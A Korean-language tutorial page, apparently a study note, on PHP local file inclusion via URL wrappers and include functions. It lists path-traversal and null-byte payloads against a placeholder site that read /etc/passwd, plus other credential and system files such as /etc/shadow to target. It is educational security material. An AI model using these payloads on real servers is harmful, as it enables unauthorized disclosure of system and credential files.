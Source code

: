 <br>

File System 함수들은 wrapper을 사용할 수 있다!!
: ```PHP comes with many built-in wrappers for various URL-style protocols for use with the filesystem functions such as fopen(), copy(), file_exists() and filesize(). ```

<br>

![image](https://user-images.githubusercontent.com/52172169/162612810-4d25fc60-6c8e-411c-bb34-bbe58578e340.png)

<br>

include, require 등의 함수도 wrapper를 사용할 수 있다. 
: <a href="http://php.adamharvey.name/manual/en/filesystem.configuration.php" target="_blank">php.adamharvey.name/manual/en/filesystem.configuration.php</a>

<br>

**물론 php.ini에서 ```allow_url_fopen```와 include 등의 경우엔 url wrapper(http, ftp)은```allow_url_include```까지 켜져 있어야 가능하다.**

<br><br>
<hr style="border: 2px solid;">
<br><br>


## 기본 공격
<hr style="border-top: 1px solid;"><br>

```
1. http://www.site.com/index.php?pages=/etc/passwd
2. http://www.site.com/index.php?pages=../../../../etc/passwd
3. http://www.site.com/index.php?pages=../../../../etc/passwd%00
/etc/passwd 뒤에 %00은 널바이트로써 /etc/passwd 뒤에 붙는 쓸데없는 값들을 널바이트로 날려버림.

그 외 가능한 곳
/etc/shadow
/etc/group
/etc/security/group
/etc/security/passwd
/etc/security/user
/etc/security/environ
/etc/security/limits
/usr/lib/security/mkuser.default
```  

<br><br>
<br><br>

### /proc/self/environ
<hr style="border-top: 1px solid;"><br>

/proc 파일 시스템 구성 요소
: <a href="https://sonseungha.tistory.com/412" target="_blank">sonseungha.tistory.com/412</a>

<br>

